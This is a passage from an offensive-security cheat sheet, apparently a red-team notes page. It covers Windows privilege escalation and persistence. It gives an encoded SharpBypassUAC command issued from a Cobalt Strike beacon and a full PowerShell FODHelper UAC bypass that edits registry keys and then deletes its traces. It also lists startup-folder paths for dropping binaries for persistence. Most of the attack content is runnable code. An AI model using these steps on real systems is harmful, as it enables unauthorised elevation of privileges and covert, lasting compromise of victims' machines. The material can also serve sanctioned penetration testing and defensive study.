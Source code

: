 Using [SharpBypassUAC](https://github.com/FatRodzianko/SharpBypassUAC).

```bash
# Generate EncodedCommand
echo -n 'cmd /c start rundll32 c:\\users\\public\\beacon.dll,Update' | base64

# Use SharpBypassUAC e.g. from a CobaltStrike beacon
beacon> execute-assembly /opt/SharpBypassUAC/SharpBypassUAC.exe -b eventvwr -e Y21kIC9jIHN0YXJ0IHJ1bmRsbDMyIGM6XHVzZXJzXHB1YmxpY1xiZWFjb24uZGxsLFVwZGF0ZQ==
```

In some cases, you may get away better with running a manual UAC bypass, such as the FODHelper bypass which is quite simple to execute in PowerShell.

```powershell
# The command to execute in high integrity context
$cmd = "cmd /c start powershell.exe"
 
# Set the registry values
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $cmd -Force
 
# Trigger fodhelper to perform the bypass
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
 
# Clean registry
Start-Sleep 3
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```

## Persistence

### Startup folder

Just drop a binary. Classic. 😎🚩

In current user folder, will trigger when current user signs in:

```plaintext
c:\Users\[USERNAME]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

Or in the global startup folder, requires administrative privileges but will trigger as SYSTEM on boot *and*  in a user context whenever any user signs in:

```plaintext
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
```

## Domain Persistence

Must be run with DA privileges.
